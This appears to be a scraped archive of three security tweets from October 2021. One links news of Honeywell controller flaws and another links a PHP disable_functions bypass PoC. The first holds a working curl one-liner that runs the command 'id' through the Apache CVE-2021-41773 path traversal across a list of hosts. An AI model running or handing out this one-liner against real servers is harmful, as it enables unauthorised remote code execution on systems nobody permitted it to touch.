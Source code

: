 
# HackerGautam
**https://twitter.com/HackerGautam/status/1445666357920428036 _at 2021-10-06 08:24:53_**
<blockquote>
Update : CVE-2021-41773 POC as RCE 🔥👇💥

✅One Liner:
cat file | while read host do ; do curl --silent --path-as-is --data "echo;id" '$host/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' | grep "uid" &amp;&amp; echo "$host \033[0;31mVuln\n"|| echo "$host \033[0;32mNot\n";done

#infosec #bugbounty
</blockquote>


<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>333</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1445654263971995653 _at 2021-10-06 07:36:50_**
<blockquote>
Multiple critical vulnerabilities have been discovered in #Honeywell Experion PKS and ACE Controllers that could be exploited for RCE and DoS attacks on critical processes.

https://t.co/3Phji231fH

CVE-2021-38397 (CVSS 10)
TypeCVE-2021-38395 (CVSS 9.1)
CVE-2021-38399 (CVSS 7.5)
</blockquote>

* https://thehackernews.com/2021/10/multiple-critical-flaws-discovered-in.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>58</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1445602995203239946 _at 2021-10-06 04:13:06_**
<blockquote>
Yet another PHP 7.0-8.0 disable_functions bypass 0day PoC https://t.co/lBzq0XzAzd
</blockquote>
